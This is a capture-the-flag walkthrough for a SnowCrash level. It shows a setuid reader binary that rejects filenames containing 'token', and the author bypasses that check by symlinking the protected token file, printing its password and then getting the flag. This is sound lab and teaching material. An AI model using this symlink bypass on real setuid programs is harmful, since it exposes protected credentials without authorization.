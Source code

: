 # Level08

## Exploring the computer

```bash 
$ ls -la
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```

We have a binary setuid/getuid and a file token.


## Inspecting the files

```bash 
$ ./level08 
./level08 [file to read]

$ ./level08 token
You may not access 'token'

$./level08 .profile 
level08: Unable to open .profile: Permission denied

$ echo 'coucou' > /tmp/test.txt
$ ./level08  /tmp/test.txt
coucou
```

So we have an executable which displays the content of the file. We cannot call it on token. 
Let's see why : 

```bash 
$ strings ./level08 
[...]
token
You may not access '%s'
[...]
```

```bash 
$ ltrace ./level08 token 
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                                                            = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)                                        = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
```


The strstr function is called, this function checks if the string "token" (second argument) is a substring of the input filename (first argument).


Since the program checks only the filename but not the content we can create an alias file for token using a symbolic link (ln -s). 

## Getting the flag

```bash 
$ ln -s ~/token /tmp/new
$ ./level08 /tmp/new
quif5eloekouj29ke0vouxean
```


```bash 
$ su flag08
Password: 
Don't forget to launch getflag !
$ flag08@SnowCrash:~$ getflag
Check flag.Here is your token : ************
```
